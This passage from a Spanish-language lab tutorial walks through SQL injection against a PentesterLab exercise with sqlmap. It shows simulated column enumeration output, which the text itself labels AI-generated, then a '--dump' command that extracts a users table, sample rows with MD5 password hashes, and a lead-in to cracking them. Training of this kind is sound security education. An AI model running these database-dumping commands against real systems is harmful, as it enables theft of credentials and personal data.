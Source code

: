 ```text
[00:53:47] [INFO] retrieved: varchar(100)
[00:53:48] [INFO] retrieved: password
[00:53:48] [INFO] retrieved: varchar(100)
[00:53:49] [INFO] retrieved: email
[00:53:49] [INFO] retrieved: varchar(100)

Database: exercises
Table: users
[4 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| username | varchar(100) |
| password | varchar(100) |
| email    | varchar(100) |
+----------+--------------+

[*] ending @ 00:53:49
```

🔍 Nota: esta salida está explícitamente marcada como "Generada con IA". En una ejecución real, los tiempos, mensajes y formato pueden variar según la versión de sqlmap. Use esta simulación para comprender cómo sqlmap enumera y presenta la estructura de columnas de una tabla específica.

PASO 9: Extraer Datos de la Tabla (Reto Avanzado)
⚠️ ADVERTENCIA ÉTICA: Esta acción extrae datos sensibles. Solo debe realizarse en entornos de prueba autorizados.

```bash
sqlmap -u "http://[IP_PENTESTERLAB]/sqli/example1.php?id=1" -D exercises -T users --dump
```

💡 Explicación:

- --dump: Extrae y muestra todos los datos de la tabla

📊 Salida esperada (resumen):
Database: exercises
Table: users
[3 entries]
+----+----------+----------------------------------+-------------------+
| id | username | password                         | email             |
+----+----------+----------------------------------+-------------------+
| 1  | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@example.com |
| 2  | john     | 098f6bcd4621d373cade4e832627b4f6 | john@example.com  |
| 3  | jane     | 5f4dcc3b5aa765d61d8327deb882cf99 | jane@example.com  |
+----+----------+----------------------------------+-------------------+
🔍 Análisis de Contraseñas:
Las contraseñas están hasheadas con MD5. SQLMap puede intentar crackearlas:
